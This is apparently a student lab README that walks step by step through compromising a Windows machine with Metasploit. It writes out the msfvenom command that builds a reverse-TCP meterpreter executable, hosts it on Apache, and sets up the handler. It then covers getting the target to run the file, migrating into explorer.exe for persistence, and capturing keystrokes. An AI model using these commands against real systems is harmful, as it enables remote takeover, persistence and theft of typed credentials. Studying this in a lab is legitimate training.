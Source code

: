 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![Screenshot 2024-04-16 143132](https://github.com/Vinothini1711/Echoserver/assets/144300204/a807691c-37df-4ded-9242-4062b6d5be95)
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![Screenshot 2024-04-16 143439](https://github.com/Vinothini1711/Echoserver/assets/144300204/e1de975c-93ad-4167-a7c6-921eae9a9801)
copy the fun.exe into the apache /var/www/html folder

![Screenshot 2024-04-16 143448](https://github.com/Vinothini1711/Echoserver/assets/144300204/eaf50b1f-801f-4515-afb5-6727f11a58a7)

Start apache server
sudo systemctl apache2 start

![Screenshot 2024-04-16 143511](https://github.com/Vinothini1711/Echoserver/assets/144300204/ab7fe513-a6a8-4e23-b8e5-1665195b344c)

Check the status of apache2

![Screenshot 2024-04-16 143554](https://github.com/Vinothini1711/Echoserver/assets/144300204/9857a3f9-147d-41a7-a1c3-32274f494a18)

Invoke msfconsole:

![Screenshot 2024-04-16 143610](https://github.com/Vinothini1711/Echoserver/assets/144300204/cbf109d5-bb84-4d84-af83-893a0c7ddad8)
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
![Screenshot 2024-04-16 143844](https://github.com/Vinothini1711/Echoserver/assets/144300204/7defa3b3-ad2f-4ed8-b026-862a5b0a8325)
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![download](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/a6b73051-a143-4740-b3d9-27c23762218f)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![exploit](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/b46a08f7-a9fc-4e71-8fdd-170ee187dd22)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![meterpreter-ps](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/7e6e28fb-b095-4fd1-81f8-a0292f82c9a2)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![notepad](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/35be18d7-51b0-4529-8fd8-76740f0c9ba6)
keyscan_dump	Shows the keystrokes captured so far
![keyscan_dump](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d40a4428-0c65-4855-be1d-c278766082fb)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
